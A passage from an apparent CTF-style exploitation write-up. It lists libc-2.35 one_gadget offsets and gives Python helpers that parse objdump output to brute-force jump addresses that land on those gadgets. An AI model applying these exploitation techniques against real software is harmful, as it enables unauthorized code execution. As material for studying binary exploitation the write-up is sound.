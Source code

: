 ```
 ...
 ..
 .
```
This way I get every instruction at it's offset from libc_base + the full opcode.


# One gadgets

Got a list of gadgets in libc with `-r` to make it python friendly, and put it in a list in my script. `-l 2` to get some of the more unreasonable gadgets.. more options = greater chance of winning the lottery! 

```
$ one_gadget -l 2 -r libc-2.35.so 
330295 330307 330328 330336 527427 527440 527445 527450 965873 965877 965880 965970 966063 966067 966071 1104834 1104842 1104847 1104857
``` 

# Brut Forc

Then get to work on the list of jumps... cross checking with the opcodes from objdump. Finding the lowest address I would get from writing 0x0000, and the highest address I would get from writing 0xFFFF. For every jump. Matching it to every gadget. Just testing the binary with every gadget that fits..

```python
with open('libc.asm','r') as file:
    lines = file.readlines()

lines = [ [x.strip() for x in line.strip().split('\t')] for line in lines if line[0:3] == '   ' ]
lines = [ [ int(x[0][:-1],16), [int(i,16) for i in x[1].split(' ')] ] for x in lines ]

opcodes = { noaslrbase+line[0]: line[1] for line in lines }
with open('jmps.txt','r') as file:
    jumps = file.readlines()

jumps = [ int(x.strip().split(' ')[0],0) for x in jumps ]

candidates = { jump: opcodes[jump][-4:] for jump in jumps if jump in opcodes and len(opcodes[jump]) > 4 }
```

Basically reading the objdump disassembly, cutting out the opcodes and index into a list, and then a dictionary with the noaslr address as key for easier lookup.


```python
def GetInt(arry):
    unsigned = u32( b"".join([ int.to_bytes(x,1,'little') for x in arry ]) )
    print(f"GetInt: {arry} : {unsigned} - {hex(unsigned)}")
    return unsigned

def Signed(unsigned):
    if unsigned & 0x80000000 > 0:
        unsigned = -0x100000000+unsigned
    return unsigned
```
